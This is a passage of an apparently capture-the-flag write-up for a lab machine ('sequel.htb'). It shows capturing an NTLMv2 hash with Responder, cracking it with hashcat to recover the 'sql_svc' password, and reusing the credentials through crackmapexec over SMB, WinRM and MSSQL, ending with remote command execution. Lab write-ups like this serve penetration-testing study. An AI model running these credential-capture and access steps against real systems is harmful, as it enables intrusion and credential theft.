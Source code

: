 ```
sudo responder -I tun0
```

-> OK, we get the sql\_svc service !

```
[SMB] NTLMv2-SSP Client   : $TARGET
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

## Crack NTLMv2 Hash

```
hashcat escape.ntlmv2 /path/to/rockyou.txt

Recovered 1/1
REGGIE1234ronnie
```

## Use sql\_svc account

```
cme smb $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie'
```

-> OK

```
cme winrm $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie'
```

-> OK (Pwn3d!)

```
mssqlclient.py sql_svc:REGGIE1234ronnie@sequel.htb
```

-> KO

```
cme mssql --local-auth $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie'
```

-> KO

```
cme mssql $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie'
```

-> OK

```
cme mssql $TARGET -u 'sql_svc' -p 'REGGIE1234ronnie' -x whoami
```
